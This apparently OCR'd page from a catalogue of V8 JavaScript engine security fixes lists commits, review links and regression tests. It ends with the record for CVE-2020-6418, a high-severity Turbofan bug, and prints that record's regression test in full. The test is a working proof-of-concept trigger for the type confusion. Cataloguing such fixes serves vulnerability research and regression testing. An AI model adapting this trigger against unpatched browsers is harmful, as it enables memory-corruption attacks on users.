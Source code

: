 Date(Commit): Wed Feb 19 18:39:25 2020  
Code Review: [https://chromium-review.googlesource.com/c/v8/v8/+/2041446](https://chromium-review.googlesource.com/c/v8/v8/+/2041446)  
Regress: [mjsunit/regress/wasm/regress-10126-streaming.js](https://chromium.googlesource.com/v8/v8/+/master/test/mjsunit/regress/wasm/regress-10126-streaming.js), [mjsunit/regress/wasm/regress-10126.js](https://chromium.googlesource.com/v8/v8/+/master/test/mjsunit/regress/wasm/regress-10126.js)  
```javascript
load('test/mjsunit/regress/wasm/regress-10126.js')  
```  
  
[[Diff]](https://chromium.googlesource.com/v8/v8/+/03d5a7b^!)  
[src/wasm/decoder.h](https://cs.chromium.org/chromium/src/v8/src/wasm/decoder.h?cl=03d5a7b)  
[src/wasm/module-compiler.cc](https://cs.chromium.org/chromium/src/v8/src/wasm/module-compiler.cc?cl=03d5a7b)  
[src/wasm/module-decoder.cc](https://cs.chromium.org/chromium/src/v8/src/wasm/module-decoder.cc?cl=03d5a7b)  
[src/wasm/module-decoder.h](https://cs.chromium.org/chromium/src/v8/src/wasm/module-decoder.h?cl=03d5a7b)  
[src/wasm/wasm-engine.cc](https://cs.chromium.org/chromium/src/v8/src/wasm/wasm-engine.cc?cl=03d5a7b)  
...  
  

---   

## **regress-1053604.js (chromium issue)**  
   
**[Issue: Security: Incorrect side effect modelling for JSCreate](https://crbug.com/1053604)**  
**[Commit: [turbofan] Fix bug in receiver maps inference](https://chromium.googlesource.com/v8/v8/+/fb0a60e)**  
  
Date(Commit): Wed Feb 19 10:15:34 2020  
Components: Blink>JavaScript, Blink>JavaScript>Compiler  
Labels: Hotlist-Merge-Review, Restrict-AddIssueComment-EditIssue, Security_Impact-Stable, M-80, Security_Severity-High, ReleaseBlock-Stable, allpublic, Arch-ARM, ClusterFuzz-Verified, CVE_description-missing, Merge-Approved-79, Target-80, merge-merged-8.0, merge-merged-8.1, Respin-Cause-Android-80, Respin-Cause-Desktop-80, Release-3-M80, CVE-2020-6418  
Code Review: [https://chromium-review.googlesource.com/c/v8/v8/+/2062396](https://chromium-review.googlesource.com/c/v8/v8/+/2062396)  
Regress: [mjsunit/compiler/regress-1053604.js](https://chromium.googlesource.com/v8/v8/+/master/test/mjsunit/compiler/regress-1053604.js)  
```javascript
let a = [0, 1, 2, 3, 4];

function empty() {}

function f(p) {
  a.pop(Reflect.construct(empty, arguments, p));
}

let p = new Proxy(Object, {
    get: () => (a[0] = 1.1, Object.prototype)
});

function main(p) {
  f(p);
}

%PrepareFunctionForOptimization(empty);
%PrepareFunctionForOptimization(f);
%PrepareFunctionForOptimization(main);

main(empty);
main(empty);
%OptimizeFunctionOnNextCall(main);
main(p);  
```